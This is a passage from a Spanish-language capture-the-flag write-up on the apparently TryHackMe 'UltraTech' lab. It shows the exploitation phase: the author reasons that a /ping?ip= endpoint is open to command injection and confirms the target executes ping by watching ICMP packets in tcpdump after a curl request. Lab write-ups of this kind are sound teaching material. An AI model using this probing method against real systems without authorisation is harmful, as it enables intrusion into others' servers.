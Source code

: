     })();
    ```
    Este script confirmó que el endpoint `/ping` en el puerto 8081 espera un parámetro llamado `ip` (`/ping?ip=...`), lo que explicaba el `TypeError` inicial. También confirmó que el formulario de autenticación en `partners.html` envía datos al endpoint `/auth` en el puerto 8081.

---

## Parte 3: Explotación
### Teoría
La identificación del endpoint `/ping` con el parámetro `ip` (`/ping?ip=...`) y la naturaleza de un servicio "ping" sugieren una alta probabilidad de **Inyección de Comandos (Command Injection)**. Esto ocurre cuando una aplicación ejecuta un comando del sistema con la entrada del usuario sin una sanitización adecuada, permitiendo al atacante inyectar comandos adicionales.

### Herramienta o script utilizado
Explotación manual utilizando `curl`.

### Comando y resultado

1.  **Validación de la inyección de comandos**: Se probó la inyección de comandos con un comando de ping a la máquina atacante (Kali).
    ```bash
    # En la máquina atacante (Kali), abrir un listener tcpdump para ICMP
    ┌──(kali㉿kali)-[~]
    └─$ sudo tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    19:04:29.356153 IP ultratech.thm > 10.6.17.22: ICMP echo request, id 1769, seq 1, length 64
    19:04:29.356182 IP 10.6.17.22 > ultratech.thm: ICMP echo reply, id 1769, seq 1, length 64
    19:04:35.002992 IP ultratech.thm > 10.6.17.22: ICMP echo request, id 1771, seq 1, length 64
    19:04:35.003033 IP 10.6.17.22 > ultratech.thm: ICMP echo reply, id 1771, seq 1, length 64
    ^C
    4 packets captured
    4 packets received by filter
    0 packets dropped by kernel
    ```
    Al enviar la solicitud HTTP:
    ```bash
    curl "http://ultratech.thm:8081/ping?ip=10.6.17.22"
    ```
    La respuesta web del servidor fue:
    ![](anexos/ultratech%203.png)
    Esto confirmó la ejecución del comando `ping` en el objetivo al observar los paquetes ICMP en `tcpdump`.